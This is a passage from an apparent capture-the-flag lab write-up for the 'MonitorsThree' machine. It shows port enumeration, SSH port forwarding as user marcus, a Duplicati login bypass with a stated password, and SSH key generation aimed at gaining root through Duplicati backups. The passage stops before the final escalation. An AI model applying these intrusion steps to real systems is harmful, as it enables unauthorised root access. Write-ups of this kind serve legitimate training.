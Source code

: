 ```bash
marcus@monitorsthree:~$ ss -lntp
ss -lntp
State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess
LISTEN 0      511          0.0.0.0:80         0.0.0.0:*          
LISTEN 0      128          0.0.0.0:22         0.0.0.0:*          
LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:*          
LISTEN 0      4096       127.0.0.1:8200       0.0.0.0:*          
LISTEN 0      4096       127.0.0.1:44309      0.0.0.0:*          
LISTEN 0      70         127.0.0.1:3306       0.0.0.0:*          
LISTEN 0      500          0.0.0.0:8084       0.0.0.0:*          
LISTEN 0      511             [::]:80            [::]:*          
LISTEN 0      128             [::]:22            [::]:*
```

We can then copy `marcus' ssh key`and ssh as him with local port forwarding

```bash
ssh -i marcus_id_rsa -L 8200:127.0.0.1:8200 marcus@10.129.174.107
```

And we can now access port 8200 which seems to be a login platform for a `Duplicati`instance --> we can use [this article](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee) to help us  (password is ``MonitorsThreeDuplicatiBackupPassword2024``)

Once we are logged in using the bypass and burp, we can make a new backup to try and gain root shell --> here are the steps:

First we need to generate an ssh-key pair and save it to `marcus'`home

```bash
ssh-keygen -t rsa -b 4096 -f monitors
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in monitors
Your public key has been saved in monitors.pub
The key fingerprint is:
SHA256:vUNoy5OT0p1QzD3yOfEgKthaFtSY7O6GIi/vS2vtmHY flavien@flavien
The key's randomart image is:
+---[RSA 4096]----+
|     ..+         |
|     .+ .o .     |
|     ..   * =    |
|     o.. = + *   |
|    ..= S o + .  |
|     +.= B o .   |
|  ...o. O =      |
|o.++E o. o .     |
| OO=..           |
+----[SHA256]-----+ 
```

then we can use the `Duplicati` instance to get root privileges
